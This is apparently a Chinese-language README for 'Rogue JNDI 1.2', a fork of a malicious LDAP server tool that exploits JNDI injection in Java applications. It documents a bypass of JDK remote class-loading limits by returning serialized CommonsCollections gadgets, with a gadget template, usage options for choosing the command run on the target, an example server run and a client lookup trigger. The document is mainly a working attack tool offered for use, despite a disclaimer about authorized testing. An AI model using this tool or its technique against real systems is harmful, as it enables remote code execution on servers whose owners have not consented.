 ## Rogue JNDI 1.2

### Description

原工具库：[veracode-research/rogue-jndi: A malicious LDAP server for JNDI injection attacks (github.com)](https://github.com/veracode-research/rogue-jndi)

增加自定义gadget触发客户端代码执行 绕过高版本JDK远程加载限制

### Bypass 

利用LDAP返回序列化数据，触发本地Gadget，LDAP支持直接返回一个对象的序列化数据。如果Java对象的 javaSerializedData 属性值不为空，则客户端的 obj.decodeObject() 方法就会对这个字段的内容进行反序列化。

`com.sun.jndi.ldap.Obj#decodeObject`

```JAVA
if ((var1 = var0.get(JAVA_ATTRIBUTES[1])) != null) {
    ClassLoader var3 = helper.getURLClassLoader(var2);
    return deserializeObject((byte[])((byte[])var1.get()), var3);
}
```

更多绕过方式请参考：https://paper.seebug.org/942

### Supported payloads

目前利用LDAP返回序列化数据，触发本地Gadget的绕过方式支持的Gadget

* CommonsCollections2
* CommonsCollections4
* CommonsCollections5
* CommonsCollections6
* CommonsCollections7
* ...

可自定义添加，在`gadgets`包中，添加模板如下

```java
@SuppressWarnings({ "rawtypes", "unchecked" })
public class GadgetName implements ObjectPayload<T>{

    @Override
    public T getObject(String command) throws Exception {
   
        return T;
    }
}
```

其他`payload`请参考原工具库

### Usage

```
> java -jar RogueJndi-1.2.jar -h
+-+-+-+-+-+-+-+-+-+
|R|o|g|u|e|J|n|d|i|
+-+-+-+-+-+-+-+-+-+
Usage: java -jar target/RogueJndi-1.2.jar [options]
  Options:
    -c, --command  Command to execute on the target server (default: calc.exe)
    -n, --hostname Local HTTP server hostname (required for remote 
                   classloading and websphere payloads) (default: 127.0.0.1)
    -l, --ldapPort Ldap bind port (default: 1389)
    -p, --httpPort Http bind port (default: 8000)
    --wsdl         [websphere1 payload option] WSDL file with XXE payload 
                   (default: /list.wsdl)
    --localjar     [websphere2 payload option] Local jar file to load (this 
                   file should be located on the remote server) (default: 
                   ../../../../../tmp/jar_cache7808167489549525095.tmp) 
    -g, --gadget   Use the client gadget to bypass the high-version JDK , 
                   choose the gadget to use (default: CommonsCollections6)
    -h, --help     Show this help
```

### Example

绕过高版本JDK限制：利用LDAP返回序列化数据，触发本地Gadget，如下Gadget的是`CommonsCollections6`

```
>java -jar RogueJndi-1.2.jar  -c "calc.exe" -n "127.0.0.1" -g "CommonsCollections6"
+-+-+-+-+-+-+-+-+-+
|R|o|g|u|e|J|n|d|i|
+-+-+-+-+-+-+-+-+-+
Starting HTTP server on 0.0.0.0:8000
Starting LDAP server on 0.0.0.0:1389
Mapping ldap://127.0.0.1:1389/o=groovy to artsploit.controllers.Groovy
Mapping ldap://127.0.0.1:1389/o=ldapref to artsploit.controllers.LDAPRefServer
Mapping ldap://127.0.0.1:1389/ to artsploit.controllers.RemoteReference
Mapping ldap://127.0.0.1:1389/o=reference to artsploit.controllers.RemoteReference
Mapping ldap://127.0.0.1:1389/o=tomcat to artsploit.controllers.Tomcat
Mapping ldap://127.0.0.1:1389/o=websphere1 to artsploit.controllers.WebSphere1
Mapping ldap://127.0.0.1:1389/o=websphere1,wsdl=* to artsploit.controllers.WebSphere1
Mapping ldap://127.0.0.1:1389/o=websphere2 to artsploit.controllers.WebSphere2
Mapping ldap://127.0.0.1:1389/o=websphere2,jar=* to artsploit.controllers.WebSphere2
```

客户端触发代码：

```
new InitialContext().lookup("ldap://127.0.0.1:1389/o=ldapref");
```

### Building

Java v1.7+ and Maven v3+ required

```
mvn package 
```

### Disclamer

 此工具仅用于企业安全人员自查验证自身企业资产的安全风险，或有合法授权的安全测试，请勿用于其他用途，如有，后果自负。
